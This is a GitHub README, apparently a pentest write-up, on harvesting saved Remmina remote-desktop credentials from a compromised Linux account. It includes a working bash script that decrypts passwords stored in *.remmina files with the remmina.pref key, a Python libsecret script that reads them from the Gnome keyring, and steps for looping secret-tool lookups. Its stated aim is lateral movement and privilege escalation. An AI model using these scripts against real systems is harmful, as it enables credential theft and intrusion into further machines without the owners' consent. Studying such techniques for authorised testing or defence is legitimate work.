 # RemmiRip
Lifting Remmina Credentials from Gnome Keyring

Remmina is a popular multipurpose remote desktop client for Linux capable of supporting RDP, VNC, SSH and more.  This article will describe how to recover a user's stored Reminna credentials from the Gnome keyring once a low-priv shell is obtained during a pentest.  Credentials obtained this way would allow lateral movement and privilege escalation on additional systems.

https://remmina.org/

Users can create sessions and optionally store logon credentials.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r00.png)

If the Gnome keyring daemon is not available on the target system then passwords are stored as encrypted base64 strings in the \*.remmina files, which can be decrypted by the key (secret) found in the remmina.pref file.  Methods of recovering passwords from these files is well documented.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r07.png)

https://www.rapid7.com/db/modules/post/multi/gather/remmina_creds

https://village.oyaore.com/home/post/2523/recover-lost-saved-remmina-remote-desktop-client-password

https://gist.github.com/selu/6359496

Here is a sample bash script that decrypts the non-keyring secrets stored in the \*.remmina files:

```bash
#!/bin/bash

echo -e "Enter the base64 secret from \"remmina.pref\":"
read RKEY

echo -e "\nEnter the base64 encrypted password from the \".remmina\" file:"
read REPW

KIV=($(echo -n $RKEY | base64 -di | xxd -p -c 24))
EPW=$(echo -n $REPW | base64 -di | xxd -p -c 256)

echo -e "\nThe decrypted password will appear in the output below:\n"

echo -n $EPW | xxd -r -p | openssl enc -des3 -nosalt -nopad -K "${KIV[0]}" -iv "${KIV[1]}" -d | hexdump -Cv
```

## Method for recovering passwords from Gnome keyring

**Step 1**

The assumption is that you already have a low-priv shell as some user on the target system that has Remmina configuration files.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r01.png)

**Step 2**

Determine the location of the \*.remmina session configuration files if they exist.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r02.png)

**Step 3**

Verify that the Gnome keyring service is in use.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r03.png)

**Step 4**

If you check the \*.remmina configuration files "password" variable and the value is "." then the session passwords are stored in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r04.png)

**Step 5**

The easiest way to recover the passwords is to see if the "secret-tool" utility is installed on the target system.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r05.png)

If so, then just loop through the file names performing a lookup on entries in the Gnome keyring.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r06.png)

**Step 6**

If the "secret-tool" utility is not present then try to extract the passwords with python.

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r08.png)

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r09.png)

Here is the python script:

```python
#!/usr/bin/python

from gi.repository import Secret

EXAMPLE_SCHEMA = Secret.Schema.new("org.remmina.Password",
    Secret.SchemaFlags.NONE,
    {
        "filename": Secret.SchemaAttributeType.STRING,
        "key": Secret.SchemaAttributeType.STRING,
    }
)

password = Secret.password_lookup_sync(EXAMPLE_SCHEMA, { "filename": "/home/bill/.local/share/remmina/1541257445686.remmina", "key": "password" }, None)
print password
```

Here is a sample output after running the python script:

![alt text](https://github.com/billchaison/RemmiRip/blob/master/r10.png)
